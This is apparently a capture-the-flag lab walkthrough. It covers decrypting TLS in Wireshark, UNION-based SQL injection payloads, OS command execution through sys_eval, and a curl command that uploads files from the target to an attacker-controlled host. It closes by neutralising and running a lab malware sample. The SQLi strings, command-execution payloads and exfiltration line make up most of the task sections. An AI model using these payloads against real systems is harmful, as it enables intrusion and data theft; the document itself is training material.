



## *Wireshark (TASK 1)*
>	- Loading the TLS log file into the Pre-Master-Secret log filename within `Edit>Preferences>Protocols>TLS` to decrypt the traffic.
>	- Loading the .pcap file and analyzing the traffic by applying a filter to show HTTP traffic.
>	- The POST request to the login page when decrypted should contain the username and password.
## *TASK 2*
>	- Relational Database Management System
>	- Create Read Update Delete
>	- Structured Query Language
## *SQLi (TASK 3)*
>	- Using the found credentials `lannister:hrpTfL42wMv3` to login to the product page on `http://10.10.21.105:8000/login.php`.
>	- Testing for the presence of In-Band SQLi vulnerability with `'`.
>	- Enumerating for the number of columns returned using `' UNION SELECT 1,2 -- //`.
>	- Get the database name using `' UNION SELECT 1,2,3,4,database() -- //`.
>	- Using the database name, get the table names inside it using `' UNION SELECT 1,2,3,4,table_name FROM information_schema.tables -- //`. A lot of tables are shown, only showing a small portion.
>	- Table `easter_egg` is interesting, getting the columns using `' UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'easter_egg' -- //`.
>	- Querying the table using `' UNION SELECT 1,2,3,url_path,message FROM easter_egg -- //`.
>	- Going to the path found.
>	- Going back the table names found, the tables `users` and `unlisted_products` are interesting.
>	- Check the `unlisted_products` table since the name is implies private.
>	- Getting the column names using `' UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'unlisted_products' -- //`.
>	- Querying the table with the columns using `' UNION SELECT * FROM unlisted_products -- //`.
## *TASK 4*
>	- Testing for SQLi vulnerability within the URL of the path found using `/os_sqli.php?user=lannister' -- //`.
>	- Getting the number of columns with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,5 -- //`.
>	- Check shell command executing using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('whoami') -- //`.
>	- Checking the working directory using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('pwd') -- //`.
## *TASK 5*
>	- Enumerating the machine to view directories using, `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('ls /home/receipts') -- //`the directory `/home/recipes/` contain encrypted files.
>	- Going back to the table names found, the table `transactions` is interesting in this case.
>	- Getting the column names and enumerating the content using the same process as before.
>	- To decrypt the file, we have to transfer the entire directory first to the attacking machine.
>	- Using Python's `uploadserver` module on the attacking machine
>		- Create a directory to upload in.
>		- start the server using `python3 -m uploadserver 8000`.
>		- Using `curl -X POST http://10.9.224.110:8000/upload -F 'files=@/home/receipts/<file-name>'` command inside the `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('') -- //` command on each file in the directory.
>		- 
>	- Now, using the found addresses, decrypt the files using `gpg --decrypt <file-name>` and when prompted for a key use the address.
## *TASK 6*
>	- Using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('ls%20 "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0"') -- //` to view the content of the malware directory.
>	- Looking at the `readme.txt` file.
>	- Viewing the content of the `config.ini` file.
>	- Using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('echo "debug=true" > "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/config.ini"') -- //` to change the value of the debug to true to stop the effect of the malware.
>	- From the name of the file `mmmmbar.nim`, the programming language can be found.
>	- By inspecting the malware file with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('tail -n +20 "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/mmmbar.nim"') -- //`, the file type can be found.
>	- Running the "defanged" malware with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('nim "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/mmmbar.nim"') -- //` to view the flag.
>	- 